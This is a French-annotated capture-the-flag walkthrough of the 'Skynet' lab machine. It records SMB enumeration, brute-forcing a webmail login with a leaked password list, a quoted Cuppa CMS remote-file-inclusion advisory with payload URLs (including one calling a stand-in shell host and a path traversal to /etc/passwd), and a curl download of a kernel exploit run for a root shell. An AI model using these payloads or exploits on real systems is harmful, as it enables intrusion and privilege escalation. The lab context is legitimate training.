










# Skynet

A vulnerable Terminator themed Linux machine.

Level: Easy

Type: Windows Machine

##  Scanning

`nmap -A -sV $TARGET`

        PORT    STATE SERVICE     VERSION
        22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
        | ssh-hostkey: 
        |   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
        |   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
        |_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
        80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
        |_http-server-header: Apache/2.4.18 (Ubuntu)
        |_http-title: Skynet
        110/tcp open  pop3        Dovecot pop3d
        |_pop3-capabilities: UIDL RESP-CODES TOP PIPELINING SASL AUTH-RESP-CODE CAPA
        139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
        143/tcp open  imap        Dovecot imapd
        |_imap-capabilities: listed SASL-IR LOGINDISABLEDA0001 have ID IMAP4rev1 LITERAL+ OK IDLE LOGIN-REFERRALS ENABLE more capabilities Pre-login post-login
        445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
        Device type: general purpose
        Running: Linux 3.X
        OS CPE: cpe:/o:linux:linux_kernel:3
        OS details: Linux 3.10 - 3.13
        Network Distance: 1 hop
        Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Host script results:
        |_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: -1s
        |_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
        | smb-os-discovery: 
        |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
        |   Computer name: skynet
        |   NetBIOS computer name: SKYNET\x00
        |   Domain name: \x00
        |   FQDN: skynet
        |_  System time: 2026-05-12T02:06:55-05:00
        | smb-security-mode: 
        |   account_used: guest
        |   authentication_level: user
        |   challenge_response: supported
        |_  message_signing: disabled (dangerous, but default)
        | smb2-security-mode: 
        |   2.02: 
        |_    Message signing enabled but not required
        | smb2-time: 
        |   date: 2026-05-12T07:06:55
        |_  start_date: N/A

**On sait qu'il y a un partage SMB avec un serveur mail POP3**

`nxc smb $TARGET`

        SMB         10.112.153.219  445    SKYNET           [*] Unix - Samba (name:SKYNET) (domain:) (signing:False) (SMBv1:True)

`nxc smb $TARGET -u "Guest" -p ""`

        SMB         10.112.153.219  445    SKYNET           [*] Unix - Samba (name:SKYNET) (domain:) (signing:False) (SMBv1:True)
        SMB         10.112.153.219  445    SKYNET           [+] \Guest: (Guest)

`nxc smb $TARGET -u "Guest" -p "" --shares`

        SMB         10.112.153.219  445    SKYNET           [*] Unix - Samba (name:SKYNET) (domain:) (signing:False) (SMBv1:True)
        SMB         10.112.153.219  445    SKYNET           [+] \Guest: (Guest)
        SMB         10.112.153.219  445    SKYNET           [*] Enumerated shares
        SMB         10.112.153.219  445    SKYNET           Share           Permissions     Remark
        SMB         10.112.153.219  445    SKYNET           -----           -----------     ------
        SMB         10.112.153.219  445    SKYNET           print$                          Printer Drivers
        SMB         10.112.153.219  445    SKYNET           anonymous       READ            Skynet Anonymous Share
        SMB         10.112.153.219  445    SKYNET           milesdyson                      Miles Dyson Personal Share
        SMB         10.112.153.219  445    SKYNET           IPC$                            IPC Service (skynet server (Samba, Ubuntu))

**Informations possible dans anonymous**

## Premier accès

`smbclient //$TARGET/anonymous -U "Guest" -N`

        Try "help" to get a list of possible commands.
        smb: \> ls
        .                                   D        0  Thu Nov 26 16:04:00 2020
        ..                                  D        0  Tue Sep 17 08:20:17 2019
        attention.txt                       N      163  Wed Sep 18 04:04:59 2019
        logs                                D        0  Wed Sep 18 05:42:16 2019

                        9204224 blocks of size 1024. 5831508 blocks available
        smb: \> get attention.txt 
        getting file \attention.txt of size 163 as attention.txt (39.8 KiloBytes/sec) (average 39.8 KiloBytes/sec)
        smb: \> get logs\log1.txt 
        getting file \logs\log1.txt of size 471 as logs\log1.txt (115.0 KiloBytes/sec) (average 77.4 KiloBytes/sec)
        smb: \> get logs\log2.txt 
        getting file \logs\log2.txt of size 0 as logs\log2.txt (0.0 KiloBytes/sec) (average 61.9 KiloBytes/sec)
        smb: \> get logs\log3.txt 
        getting file \logs\log3.txt of size 0 as logs\log3.txt (0.0 KiloBytes/sec) (average 51.6 KiloBytes/sec)

`cat attention.txt`

        A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
        -Miles Dyson

`cat logs\\log*`

        cyborg007haloterminator
        terminator22596
        terminator219
        terminator20
        terminator1989
        terminator1988
        terminator168
        terminator16
        terminator143
        terminator13
        terminator123!@#
        terminator1056
        terminator101
        terminator10
        terminator02
        terminator00
        roboterminator
        pongterminator
        manasturcaluterminator
        exterminator95
        exterminator200
        dterminator
        djxterminator
        dexterminator
        determinator
        cyborg007haloterminator
        avsterminator
        alonsoterminator
        Walterminator
        79terminator6
        1996terminator

**Mots de passe ?**

`gobuster dir -u http://$TARGET --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

        ===============================================================
        Gobuster v3.6
        by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
        ===============================================================
        [+] Url:                     http://10.112.153.219
        [+] Method:                  GET
        [+] Threads:                 10
        [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
        [+] Negative Status codes:   404
        [+] User Agent:              gobuster/3.6
        [+] Timeout:                 10s
        ===============================================================
        Starting gobuster in directory enumeration mode
        ===============================================================
        /admin                (Status: 301) [Size: 316] [--> http://10.112.153.219/admin/]
        /css                  (Status: 301) [Size: 314] [--> http://10.112.153.219/css/]
        /js                   (Status: 301) [Size: 313] [--> http://10.112.153.219/js/]
        /config               (Status: 301) [Size: 317] [--> http://10.112.153.219/config/]
        /ai                   (Status: 301) [Size: 313] [--> http://10.112.153.219/ai/]
        /squirrelmail         (Status: 301) [Size: 323] [--> http://10.112.153.219/squirrelmail/]
        /server-status        (Status: 403) [Size: 279]
        Progress: 218275 / 218276 (100.00%)
        ===============================================================
        Finished
        ===============================================================

**Le serveur mail est accessible via /squirrelmail**

**On va tester le login de Miles Dyson avec la liste de mots de passe**

**On récupére la requête originale via BURP et on recrée des requêtes en remplaçant le mot de passe**

**La taille de la réponse pour le mot de passe "cyborg007haloterminator" est différente des autres**

**Le mail de password reset peut nous servir !**

**Nous avons un mot de passe pour accéder au serveur SMB via le compte de Miles**

`smbclient //$TARGET/milesdyson -U "milesdyson"`

        Password for [WORKGROUP\milesdyson]:
        Try "help" to get a list of possible commands.
        smb: \> ls
        .                                   D        0  Tue Sep 17 10:05:47 2019
        ..                                  D        0  Wed Sep 18 04:51:03 2019
        Improving Deep Neural Networks.pdf      N  5743095  Tue Sep 17 10:05:14 2019
        Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 10:05:14 2019
        Convolutional Neural Networks-CNN.pdf      N 19655446  Tue Sep 17 10:05:14 2019
        notes                               D        0  Tue Sep 17 10:18:40 2019
        Neural Networks and Deep Learning.pdf      N  4304586  Tue Sep 17 10:05:14 2019
        Structuring your Machine Learning Project.pdf      N  3531427  Tue Sep 17 10:05:14 2019

                        9204224 blocks of size 1024. 5810152 blocks available
        smb: \> cd notes\
        smb: \notes\> ls
        .                                   D        0  Tue Sep 17 10:18:40 2019
        ..                                  D        0  Tue Sep 17 10:05:47 2019
        3.01 Search.md                      N    65601  Tue Sep 17 10:01:29 2019
        4.01 Agent-Based Models.md          N     5683  Tue Sep 17 10:01:29 2019
        2.08 In Practice.md                 N     7949  Tue Sep 17 10:01:29 2019
        0.00 Cover.md                       N     3114  Tue Sep 17 10:01:29 2019
        1.02 Linear Algebra.md              N    70314  Tue Sep 17 10:01:29 2019
        important.txt                       N      117  Tue Sep 17 10:18:39 2019
        6.01 pandas.md                      N     9221  Tue Sep 17 10:01:29 2019
        3.00 Artificial Intelligence.md      N       33  Tue Sep 17 10:01:29 2019
        2.01 Overview.md                    N     1165  Tue Sep 17 10:01:29 2019
        3.02 Planning.md                    N    71657  Tue Sep 17 10:01:29 2019
        1.04 Probability.md                 N    62712  Tue Sep 17 10:01:29 2019
        2.06 Natural Language Processing.md      N    82633  Tue Sep 17 10:01:29 2019
        2.00 Machine Learning.md            N       26  Tue Sep 17 10:01:29 2019
        1.03 Calculus.md                    N    40779  Tue Sep 17 10:01:29 2019
        3.03 Reinforcement Learning.md      N    25119  Tue Sep 17 10:01:29 2019
        1.08 Probabilistic Graphical Models.md      N    81655  Tue Sep 17 10:01:29 2019
        1.06 Bayesian Statistics.md         N    39554  Tue Sep 17 10:01:29 2019
        6.00 Appendices.md                  N       20  Tue Sep 17 10:01:29 2019
        1.01 Functions.md                   N     7627  Tue Sep 17 10:01:29 2019
        2.03 Neural Nets.md                 N   144726  Tue Sep 17 10:01:29 2019
        2.04 Model Selection.md             N    33383  Tue Sep 17 10:01:29 2019
        2.02 Supervised Learning.md         N    94287  Tue Sep 17 10:01:29 2019
        4.00 Simulation.md                  N       20  Tue Sep 17 10:01:29 2019
        3.05 In Practice.md                 N     1123  Tue Sep 17 10:01:29 2019
        1.07 Graphs.md                      N     5110  Tue Sep 17 10:01:29 2019
        2.07 Unsupervised Learning.md       N    21579  Tue Sep 17 10:01:29 2019
        2.05 Bayesian Learning.md           N    39443  Tue Sep 17 10:01:29 2019
        5.03 Anonymization.md               N     2516  Tue Sep 17 10:01:29 2019
        5.01 Process.md                     N     5788  Tue Sep 17 10:01:29 2019
        1.09 Optimization.md                N    25823  Tue Sep 17 10:01:29 2019
        1.05 Statistics.md                  N    64291  Tue Sep 17 10:01:29 2019
        5.02 Visualization.md               N      940  Tue Sep 17 10:01:29 2019
        5.00 In Practice.md                 N       21  Tue Sep 17 10:01:29 2019
        4.02 Nonlinear Dynamics.md          N    44601  Tue Sep 17 10:01:29 2019
        1.10 Algorithms.md                  N    28790  Tue Sep 17 10:01:29 2019
        3.04 Filtering.md                   N    13360  Tue Sep 17 10:01:29 2019
        1.00 Foundations.md                 N       22  Tue Sep 17 10:01:29 2019

                        9204224 blocks of size 1024. 5810152 blocks available
        smb: \notes\> get important.txt

**Le fichier important.txt doit cacher une information pour continuer le CTF**

`cat important.txt `

        1. Add features to beta CMS /45kra24zxs28v3yd
        2. Work on T-800 Model 101 blueprints
        3. Spend more time with my wife

`gobuster dir -u http://$TARGET/45kra24zxs28v3yd --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

        ===============================================================
        Gobuster v3.6
        by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
        ===============================================================
        [+] Url:                     http://10.112.153.219/45kra24zxs28v3yd
        [+] Method:                  GET
        [+] Threads:                 10
        [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
        [+] Negative Status codes:   404
        [+] User Agent:              gobuster/3.6
        [+] Timeout:                 10s
        ===============================================================
        Starting gobuster in directory enumeration mode
        ===============================================================
        /administrator        (Status: 301) [Size: 341] [--> http://10.112.153.219/45kra24zxs28v3yd/administrator/]
        Progress: 218275 / 218276 (100.00%)
        ===============================================================
        Finished
        ===============================================================

### What is the vulnerability called when you can include a remote file for malicious purposes?

        Remote file inclusion

**On suppose que l'attaque à effectuer est une RFI**

`searchsploit cuppa`

        ---------------------------------------------- ---------------------------------
        Exploit Title                                |  Path
        ---------------------------------------------- ---------------------------------
        Cuppa CMS - '/alertConfigField.php' Local/Rem | php/webapps/25971.txt
        ---------------------------------------------- ---------------------------------

`searchsploit -m php/webapps/25971.txt`

        Exploit: Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion
        URL: https://www.exploit-db.com/exploits/25971
        Path: /opt/exploitdb/exploits/php/webapps/25971.txt
        Codes: OSVDB-94101
        Verified: True
        File Type: C++ source, ASCII text, with very long lines
        Copied to: /root/25971.txt

        # Exploit Title   : Cuppa CMS File Inclusion
        # Date            : 4 June 2013
        # Exploit Author  : CWH Underground
        # Site            : www.2600.in.th
        # Vendor Homepage : http://www.cuppacms.com/
        # Software Link   : http://jaist.dl.sourceforge.net/project/cuppacms/cuppa_cms.zip
        # Version         : Beta
        # Tested on       : Window and Linux

        ,--^----------,--------,-----,-------^--,
        | |||||||||   `--------'     |          O .. CWH Underground Hacking Team ..
        `+---------------------------^----------|
        `\_,-------, _________________________|
        / XXXXXX /`|     /
        / XXXXXX /  `\   /
        / XXXXXX /\______(
        / XXXXXX /
        / XXXXXX /
        (________(
        `------'

        ####################################
        VULNERABILITY: PHP CODE INJECTION
        ####################################

        /alerts/alertConfigField.php (LINE: 22)

        -----------------------------------------------------------------------------
        LINE 22:
                <?php include($_REQUEST["urlConfig"]); ?>
        -----------------------------------------------------------------------------

        #####################################################
        DESCRIPTION
        #####################################################

        An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

        http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]

        #####################################################
        EXPLOIT
        #####################################################

        http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
        http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

        cd /home
        $ cd milesdyson
        $ cat user.txt

**USER FLAG**

## Élévation de privilèges

**J'utilise Linpeas pour gagner du temps**

[Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation](https://www.exploit-db.com/exploits/45010)

        www-data@skynet:/var/www/html$ curl http://10.112.103.213:8000/45010.c > 45010.c
        % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                        Dload  Upload   Total   Spent    Left  Speed
        100 13728  100 13728    0     0  1673k      0 --:--:-- --:--:-- --:--:-- 1915k
        www-data@skynet:/var/www/html$ gcc 45010.c -o cve-2017-16995
        gcc 45010.c -o cve-2017-16995
        www-data@skynet:/var/www/html$ chmod +x cve*
        chmod +x cve*
        www-data@skynet:/var/www/html$ ./cve-2017-16995
        ./cve-2017-16995
        [.] 
        [.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
        [.] 
        [.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
        [.] 
        [*] creating bpf map
        [*] sneaking evil bpf past the verifier
        [*] creating socketpair()
        [*] attaching bpf backdoor to socket
        [*] skbuff => ffff89c5facd1300
        [*] Leaking sock struct from ffff89c5c4e95400
        [*] Sock->sk_rcvtimeo at offset 472
        [*] Cred structure at ffff89c5fa784b40
        [*] UID from cred structure: 33, matches the current: 33
        [*] hammering cred structure at ffff89c5fa784b40
        [*] credentials patched, launching shell...
        # id
        id
        uid=0(root) gid=0(root) groups=0(root),33(www-data)
        # cat /root/root.txt	
        cat /root/root.txt

**ROOT FLAG**

